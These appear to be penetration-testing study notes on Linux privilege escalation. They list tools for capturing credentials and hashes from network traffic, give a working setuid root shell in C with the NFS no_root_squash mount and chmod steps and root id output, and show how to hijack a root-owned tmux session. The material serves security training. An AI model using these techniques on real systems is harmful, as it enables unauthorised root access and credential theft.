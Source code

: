Miscellaneous Techniques

## Passive Traffic Capture

The following tools are useful for capturing clear text creds, Net-NTLMv2, SMBv2 and/or Kerberos hashes

- tcpdump
- [net-creds](https://github.com/DanMcInerney/net-creds)
- [PCredz](https://github.com/lgandx/PCredz)


### Weak NFS Privileges

- #NFS operates on TCP/UDP port 2049
- #showmount -e TARGET_IP remotely lists NSF accessible mounts

**NFS Options to Set**

Options can be verified in /etc/exports
- root_squash: files created and uploaded by root will be owned by nfsnobody (an unprivileged user). This prevents an attacker from uploading binaries with the SUID bit set
- no_root_squash:  allows for the creation of malicious scripts with the SUID bit set


To demonstrate:
> 1 - With local root, create a binary that executes /bin/sh

> 2 - Mount the /tmp directory locally

> 3 - Copy the root-owned binary 

> 4 - Set the SUID bit

**1. Create /bin/sh executable**

```python
cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

Compile shell.c
```python
htb@NIX02:/tmp$ gcc shell.c -o shell
```

**Steps 2 - 4**

```python
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

```python
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

Terminal multiplexers like tmux, terminator are used to all multiple terminal sessions in a single console window.
A tmux window can be detached from a session and hijacked if that session is running/ran with elevated permissions.
The following is an example:

**Create tmux directory with a group called 'dev'**
```python
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

The goal is to compromise a user in dev group and attach to the tmux session.
Verify any running tmux processes
==In this example the running process will be **tmux -S /shareds new -s debugsess**==
```python
 ps aux | grep tmux
```

**Attach to the tmux session and confirm root privileges**
```python
tmux -S /shareds
```
```python
id
```


